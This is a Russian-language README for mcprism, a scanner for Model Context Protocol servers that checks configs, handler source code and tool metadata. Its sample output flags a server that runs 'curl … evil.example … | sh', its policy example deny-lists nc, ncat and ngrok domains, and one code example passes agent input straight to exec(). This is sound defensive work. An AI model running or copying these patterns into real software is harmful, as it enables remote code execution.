

<div align="center">

<p><a href="README.md">English</a> · <a href="README.zh-CN.md">简体中文</a> · <a href="README.ja-JP.md">日本語</a> · <a href="README.ko-KR.md">한국어</a> · <a href="README.fr-FR.md">Français</a> · <a href="README.de-DE.md">Deutsch</a> · <a href="README.es-ES.md">Español</a> · Русский · <a href="README.ar-SA.md">العربية</a></p>


# mcprism

**Проверяйте MCP-серверы до того, как ваш ИИ начнёт им доверять.**

mcprism — сканер безопасности для серверов [Model Context Protocol](https://modelcontextprotocol.io/). Он смотрит на сервер с трёх сторон:

1. **Конфигурация** — как клиент его запускает и подключает: пакеты с закреплёнными версиями, передача в открытом виде, учётные данные прямо в конфигурации, цели на облачные метаданные и частные сети.
2. **Исходный код** — если реализация лежит на диске, он читает обработчики инструментов на JS/TS/Python/Go и отслеживает аргументы, которые агент может контролировать, до опасных приёмников: запуск процессов, исходящие запросы (SSRF) и пути файловой системы, а также eval, небезопасную десериализацию и жёстко прописанные секреты.
3. **Во время выполнения** — выполняет рукопожатие MCP, перечисляет инструменты, ресурсы и подсказки и проверяет отравление метаданных инструментов. Сами инструменты он не вызывает.

Каждый сервер получает список находок, балл от 0 до 100 и оценку от A до F. mcprism поставляется одним бинарным файлом Go без зависимостей времени выполнения, работает полностью офлайн и не имеет побочных эффектов.

[](https://github.com/HUA503/mcprism/actions/workflows/ci.yml)
[](https://github.com/HUA503/mcprism/releases)
[](https://goreportcard.com/report/github.com/HUA503/mcprism)
[](https://go.dev)
[](LICENSE)

</div>

---

<p align="center">
  
</p>

<p align="center">
  
</p>

MCP подключает вашего ИИ-агента к внешним серверам ради инструментов, файлов и данных. Протокол встроен в Claude Desktop и Claude Code, Cursor, VS Code, Windsurf и другие, поэтому типичная установка довольно быстро обрастает несколькими серверами. Эти серверы выполняют команды, читают файловую систему и видят ваши подсказки. Вредоносный или слишком привилегированный сервер может украсть учётные данные, выполнять команды или управлять агентом через возвращаемый текст. mcprism даёт по каждому серверу отчёт и балл до того, как агент начнёт им пользоваться — как `trivy`, запущенный по образу.

<p align="center">
  
</p>

## Быстрый старт в две строки

```sh
curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
mcprism scan
```

## Проверить сервер одной строкой

Проверьте команду запуска, URL, пакет или код на диске, не добавляя его ни в какую конфигурацию:

```sh
mcprism vet -- npx -y some-mcp-server
mcprism vet https://mcp.example.com
mcprism vet npm:@scope/name
mcprism vet ./path/to/server     # проверить дерево исходников
mcprism vet server.py            # проверить один файл
```

`vet` по умолчанию статичен и не запускает цель. Добавьте `--probe`, чтобы запустить её и перечислить инструменты, ресурсы и подсказки. Дерево исходников или файл проходят через описанный ниже движок SAST, сеть не нужна.

<p align="center">
  
</p>

## Содержание

- [История изменений](CHANGELOG.md)
- [Поверхность атаки](docs/MCP-ATTACK-SURFACE.md)
- [Набор для запуска](docs/LAUNCH-KIT.md)
- [Возможности](#возможности)
- [Когда использовать](#когда-использовать)
- [Отчёт](#отчёт)
- [Установка](#установка)
- [Быстрый старт](#быстрый-старт)
- [Пример вывода](#пример-вывода)
- [Политика как код](#политика-как-код)
- [Проверка исходного кода (SAST)](#проверка-исходного-кода-sast)
- [Что обнаруживается](#что-обнаруживается)
- [Форматы вывода](#форматы-вывода)
- [Поддерживаемые клиенты и транспорты](#поддерживаемые-клиенты-и-транспорты)
- [CI/CD](#cicd)
- [Как это работает](#как-это-работает)
- [Сравнение](#сравнение)
- [Частые вопросы](#частые-вопросы)
- [План развития](#план-развития)
- [Участие](#участие)

## Возможности

- Один бинарный файл. Ни установки Python или Node, ни ключа API LLM, ни учётной записи.
- Статическая, исходная и живая проверка. Читает конфигурацию, разбирает исходники JS/TS/Python/Go, если есть дерево кода, и делает рукопожатие MCP, чтобы перечислить инструменты, ресурсы и подсказки. Инструменты не вызывает.
- Политика как код. Включайте и выключайте правила, меняйте серьёзность, разрешайте или блокируйте пакеты/команды/домены и требуйте сетевой изоляции. Встроенные профили дают базовые линии `default`, `strict` и `ci`.
- Реестр принятых рисков. Подавляйте находки с указанием причины и срока. Подавлённые пункты остаются в отчёте и возвращаются по истечении срока.
- Детерминированность и офлайн. 33 правил, сопоставленных с OWASP MCP01–MCP07; ничего не покидает вашу машину.
- Отчёты для людей и машин: table, JSON, Markdown, HTML, SARIF, JUnit XML, CycloneDX SBOM и CSV.
- Сканируйте несколько целей сразу: файлы, каталоги (рекурсивно) и URL.

## Когда использовать

- Вы установили MCP-серверы и хотите знать, к чему они имеют доступ, до запуска агентом. Выполните `mcprism scan`.
- Команда использует общий набор серверов и хочет одну задокументированную базовую линию. Храните `policy.yml` в системе контроля версий и запускайте `--profile strict` на рабочих машинах.
- Вы проверяете изменения в CI. Запустите `mcprism scan --profile ci`, чтобы сборка падала на high и выше, или публикуйте SARIF в сканирование кода.

## Отчёт

<p align="center">
  
</p>

Пакетная проверка множества серверов (статический режим):

<p align="center">
  
</p>

## Установка

```sh
# Установщик одной строкой (Linux / macOS / Windows через Git Bash)
curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
```

```sh
# Go
go install github.com/HUA503/mcprism/cmd/mcprism@latest
```

Или скачайте бинарный файл со страницы [релизов](https://github.com/HUA503/mcprism/releases) (Linux/macOS/Windows, amd64 и arm64). Homebrew, Scoop и Nix — в планах.

## Быстрый старт

```sh
# Автоматически находит конфигурации Claude Desktop, Claude Code, Cursor, VS Code, ...
mcprism scan

# Конкретный файл конфигурации
mcprism scan ~/.claude.json

# Каталог, сканируется рекурсивно
mcprism scan ./configs

# Удалённый сервер
mcprism scan https://mcp.example.com/v1

# Несколько целей вместе
mcprism scan a.json b.json ./configs

# Полностью офлайн / только статика (не запускает процессы и не подключается)
mcprism scan mcp.json --no-dynamic

# Применить базовую линию или свою политику
mcprism scan --profile strict
mcprism scan --policy policy.yml --suppressions suppressions.yml

# Интерактивный терминальный интерфейс
mcprism scan -i

# Проверить команду / URL / пакет без файла конфигурации
mcprism vet -- npx -y some-mcp-server
mcprism vet "uvx some-mcp-server"
mcprism vet https://mcp.example.com
mcprism vet npm:@scope/name
mcprism vet --probe -- npx -y some-mcp-server   # реально запустить и перечислить инструменты

# Справка
mcprism inspect mcp.json     # перечислить инструменты/ресурсы/подсказки сервера
mcprism rules                # перечислить встроенные правила
mcprism profiles             # перечислить встроенные профили
```

### Флаги

| Флаг | Описание |
|---|---|
| `-f, --format` | `table` (по умолчанию) · `json` · `sarif` · `md` · `html` · `junit` · `cyclonedx` · `csv` |
| `-o, --output` | Записать отчёт в файл |
| `-p, --policy` | Путь к YAML-файлу политики |
| `--profile` | Встроенный профиль: `default` · `strict` · `ci` |
| `--suppressions` | Путь к YAML-файлу подавлений |
| `--no-dynamic` | Только статический анализ; не запускает процессы и не подключается |
| `--fail-on` | Ненулевой код выхода на `critical` / `high` / `medium` / `low` |
| `--timeout` | Тайм-аут рукопожатия на сервер (по умолчанию `10s`) |
| `-i, --interactive` | Просматривать находки в TUI |
| `--transport` | Принудительно `http` (Streamable HTTP) или `sse` (устаревший) для URL |
| `--probe` (`vet`) | Реально запустить/подключиться и перечислить инструменты; выполняет цель, лучше в песочнице |

## Пример вывода

Сканирование двух локальных серверов в статическом режиме:

```text
◆ mcprism   v0.2.0 · 2026-09-29
────────────────────────────────────────────────
 A  notes  ◌ static only
  npx -y @acme/notes-mcp@2.0.1
  capabilities: none
  ✓ No issues detected

 F  shell  ◌ static only
  bash -c curl -s https://evil.example/x | sh
  capabilities: SHELL · NET
  CRIT MCP104  Remote code fetched and executed by shell
  CRIT MCP301  Command execution combined with network access
────────────────────────────────────────────────
2 servers · 2 findings
2 CRIT  0 HIGH  0 MED  0 LOW
```

Форматы HTML и SARIF добавляют доказательства, рекомендации и сопоставление с OWASP.

## Политика как код

Файл политики — это версионированный YAML-документ. Он задаёт условия прохождения/провала, переопределяет отдельные правила, перечисляет разрешённые и запрещённые пакеты/команды/домены и может требовать, чтобы у серверов с доступом к файлам или оболочке не было исходящих сетевых подключений.

```yaml
version: "1"
fail:
  on: high
  grade: B
  score: 70
rules:
  MCP106:
    severity: high
allow:
  packages: ["@modelcontextprotocol/*"]
deny:
  commands: [nc, ncat]
  domains: ["*.ngrok.io"]
capabilities:
  requireNetworkIsolation: true
```

Совпадение с запретом сообщается как `MCP700`; файловый/оболочечный сервер с сетевым доступом при требовании изоляции сообщается как `MCP701`. См. [`examples/policy.yml`](examples/policy.yml), [`examples/suppressions.yml`](examples/suppressions.yml) и [руководство по политикам](docs/POLICIES.md). О шлюзах соответствия и машиночитаемых выводах — [docs/COMPLIANCE.md](docs/COMPLIANCE.md).

## Проверка исходного кода (SAST)

Конфигурация говорит, как сервер запускается, но не что обработчик делает с аргументом. Сервер, который выглядит нормально в конфигурации, может передавать параметр инструмента прямо в оболочку, использовать его как URL запроса или открывать построенный по нему путь. Эти дефекты — в реализации, поэтому mcprism читает код.

Направьте `vet` на дерево кода или на один файл. Не нужны ни шаг сборки, ни установленные зависимости, ни сеть:

```sh
mcprism vet ./mcp-server
mcprism vet ./mcp-server/src/tool.ts
```

Распознаются распространённые SDK и фреймворки:

- JavaScript/TypeScript: `McpServer` из `@modelcontextprotocol/sdk`, низкоуровневый `Server.setRequestHandler` и разные регистрации `.tool(...)`.
- Python: декоратор `@mcp.tool()` из `FastMCP` и низкоуровневый обработчик `call_tool`.

Для каждого инструмента аргументы обработчика считаются контролируемыми атакующим и отслеживаются на один шаг до приёмника. Находки указывают файл и строку, показывают код и объясняют, как исправить:

| Правило | Приёмник | По умолчанию |
|---|---|---|
| MCP801 | Ввод инструмента попадает в приёмник процесса/команды (`exec`, `spawn`, `os.system`, `subprocess shell=True`) | critical |
| MCP802 | Ввод управляет URL запроса (`fetch`, `requests`, `httpx`) — SSRF | high |
| MCP803 | Ввод используется как путь файла без ограничения | high |
| MCP804 | Динамическое выполнение кода (`eval`, `Function`, `exec`) | high |
| MCP805 | Небезопасная десериализация (`pickle`, `marshal`, `yaml.load`) | high |
| MCP806 | Учётные данные, жёстко прописанные в исходниках | high |

Распознаются обычные безопасные шаблоны, и при их наличии ничего не сообщается, чтобы снизить число ложных срабатываний:

- Фиксированная команда с аргументами, переданными массивом (`execFile(cmd, args)`, `subprocess.run([...])`), а не строкой для оболочки.
- Ограничение путей: `path.resolve(base, name)` с проверкой `startsWith(base)`, в Python — `realpath` + `startswith`.
- Постоянный базовый URL вместо выбираемого агентом хоста, плюс `yaml.safe_load` / `SafeLoader`.

Этот обработчик помечается MCP801, потому что агент управляет командой:

```js
server.tool("run", { command: z.string() }, async ({ command }) => {
  exec(command, (err, stdout) => callback(stdout));
});
```

Исправленная версия использует список разрешений и никогда не запускает оболочку:

```js
const ALLOWED = { status: ["git", "status"], log: ["git", "log", "-5"] };
server.tool("git", { name: z.string() }, async ({ name }) => {
  const spec = ALLOWED[name];
  if (!spec) throw new Error("not allowed");
  const [cmd, ...args] = spec;
  return execFile(cmd, args);
});
```

Движок работает на шаблонах с одноуровневым отслеживанием помеченных данных и без сторонних анализаторов, поэтому бинарный файл остаётся маленьким и самодостаточным. Он ловит не всё, что увидел бы полноценный анализ потоков данных; он нацелен на короткие прямые пути от обработчика к приёмнику, где лежит большинство дефектов MCP-серверов. Подробности правил и другие примеры — в [docs/SAST.md](docs/SAST.md).

<p align="center">
  
</p>

## Что обнаруживается

- Секреты в конфигурации. Узнаваемые форматы учётных данных (AWS, Google, GitHub, Slack, Stripe, GitLab, OpenAI, JWT и другие) помечаются по типу, а значения с высокой энтропией, похожие на сгенерированные ключи, — как подозрительные секреты. Примеры-заглушки и ссылки `${ENV_VAR}` не помечаются.
- Передача в открытом виде и отключённый TLS (`http://`, `NODE_TLS_REJECT_UNAUTHORIZED=0`).
- Слишком широкие права. Файловые серверы, смонтированные на `/` или домашний каталог; отключённые песочницы или проверки прав.
- Отравление инструментов. Инструкции внедрения, невидимый/двунаправленный Unicode, скрытый HTML/Markdown и закодированные блоки в именах, описаниях и схемах инструментов.
- Опасные сочетания возможностей: оболочка плюс сеть, чтение файлов плюс сеть, запись файлов плюс оболочка.
- Сетевые цели. Эндпоинты облачных метаданных (`169.254.169.254`) и частные/loopback-диапазоны.
- Риски цепочки поставок: незакреплённые пакеты, имена в стиле typosquat и код, выполняемый напрямую с удалённого URL.
- Нарушения политики: запрещённые пакеты/команды/домены и нарушенная сетевая изоляция.
- Дефекты исходного кода в обработчиках JS/TS/Python/Go: аргументы инструментов, доходящие до командных, сетевых и файловых приёмников, eval/exec, небезопасная десериализация и жёстко прописанные секреты. См. [Проверка исходного кода](#проверка-исходного-кода-sast).
- Конфликты имён инструментов между серверами и классифицированные ошибки подключения (DNS / TLS / отказ / тайм-аут / нет команды).

Полный список с сопоставлением OWASP — в [docs/RULES.md](docs/RULES.md).

## Форматы вывода

| Формат | Типичное применение |
|---|---|
| `table` | Вывод в терминал |
| `json` | Собственные инструменты |
| `sarif` | Сканирование кода GitHub |
| `md` | Markdown-отчёты / тикеты |
| `html` | Автономный отчёт для отправки |
| `junit` | Тестовые отчёты Jenkins, GitLab и GitHub |
| `cyclonedx` | SBOM / импорт уязвимостей |
| `csv` | Таблицы и процессы GRC |

## Поддерживаемые клиенты и транспорты

mcprism читает конфигурацию MCP в JSON/JSONC, которую используют Claude Desktop, Claude Code, Cursor, VS Code (GitHub Copilot Chat), Windsurf, Cline, Continue и похожие инструменты, — и как объект `mcpServers`, и как массив. Поддерживаются все три транспорта MCP: stdio, Streamable HTTP и устаревший HTTP+SSE.

## CI/CD

Блокируйте рискованные серверы в конвейере профилем `ci`:

```yaml
- name: Audit MCP servers
  run: |
    curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
    mcprism scan mcp.json --no-dynamic --profile ci
```

Публикуйте в сканирование кода GitHub через SARIF:

```yaml
- name: Scan & upload
  run: mcprism scan mcp.json -f sarif -o mcp.sarif
- uses: github/codeql-action/upload-sarif@v3
  with:
    sarif_file: mcp.sarif
```

Вывод JUnit подходит для шагов тестовых отчётов Jenkins и GitLab, а вывод CycloneDX можно передать в отслеживание SBOM или уязвимостей.

## Как это работает



mcprism только перечисляет возможности, поэтому у анализа нет побочных эффектов. Входящий в комплект демо-сервер (`examples/testserver`) лишь имитирует рискованное поведение, не выполняя его. Структура пакетов и потоки данных описаны в [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md).

## Сравнение

На основе публичных описаний проектов (функции могут меняться):

| | **mcprism** | mcp-scan | mcp-audit | ручная проверка |
|---|---|---|---|---|
| Язык / рантайм | Go, один бинарник | Python | Python/Node | — |
| Нет зависимостей установки/выполнения | ✅ | ❌ | ❌ | — |
| Статическая проверка конфигурации | ✅ | ✅ | частично | ❌ |
| Живое перечисление возможностей | ✅ | частично | частично | ❌ |
| SAST исходников (обработчик-приёмник) | ✅ | ❌ | ❌ | ❌ |
| Обнаружение отравления инструментов | ✅ | ✅ | частично | ❌ |
| Моделирование сочетаний возможностей | ✅ | ❌ | ❌ | ❌ |
| Политика как код (разрешать/блокировать/изолировать) | ✅ | ❌ | ❌ | ❌ |
| Вывод JUnit / CycloneDX / CSV | ✅ | ❌ | ❌ | ❌ |
| Рекурсивное сканирование многих целей | ✅ | частично | ❌ | ❌ |
| SARIF + коды выхода для CI | ✅ | ✅ | ❌ | ❌ |
| Полностью офлайн, без LLM | ✅ | ✅ | частично | ✅ |
| Кроссплатформенность | ✅ | частично | частично | — |

## Частые вопросы

**mcprism вызывает мои инструменты?**
Нет. Он делает только инициализацию MCP и вызовы перечисления. Инструменты не вызываются, файлы через сервер не открываются, подсказки не отправляются.

**Он отправляет данные куда-либо?**
Нет. Правила выполняются локально, телеметрии нет. Живое сканирование общается только с указанным сервером ради рукопожатия; с `--no-dynamic` не делает и этого.

**Чем он отличается от mcp-scan или mcp-audit?**
Те работают на Python или Node и сосредоточены на конфигурации или отравлении. mcprism — один бинарник Go, моделирует сочетания возможностей, применяет политику как код и выдаёт JUnit, CycloneDX и CSV вдобавок к SARIF. См. [таблицу сравнения](#сравнение).

**У меня ложное срабатывание. Что делать?**
По возможности исправьте первопричину, иначе подавите находку с причиной и сроком. Подавлённые пункты остаются видимыми и сами истекают. См. [docs/POLICIES.md](docs/POLICIES.md).

**Чистый отчёт означает, что сервер безопасен?**
Нет. mcprism сообщает об известных наблюдаемых рисках. Он не может доказать, что сервер безопасен, поэтому запускайте только те серверы, которым доверяете.

## План развития

- [ ] Больше правил и меньше ложных срабатываний по мере развития спецификации MCP
- [ ] Сканирование реестров / маркетплейсов MCP
- [ ] Пользовательские правила сверх переопределений политики
- [ ] Pre-commit hook и интеграции с редакторами
- [ ] Пакеты Homebrew, Scoop и Nix

## Участие

Issue и PR приветствуются. Хорошее правило — проверка с чётким сигналом, детерминированная и с низким уровнем ложных срабатываний: добавьте её в `internal/rules`, сопоставьте с риском OWASP MCP и приложите тест. Структура кода — в [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md). Перед открытием PR выполните `go vet ./... && go test ./...`.

## Лицензия

[MIT](LICENSE) © mcprism contributors.

mcprism — инструмент защиты. Он сообщает о рисках; он не доказывает, что сервер безопасен, и чистый отчёт — не повод доверять серверу, который вы не понимаете.
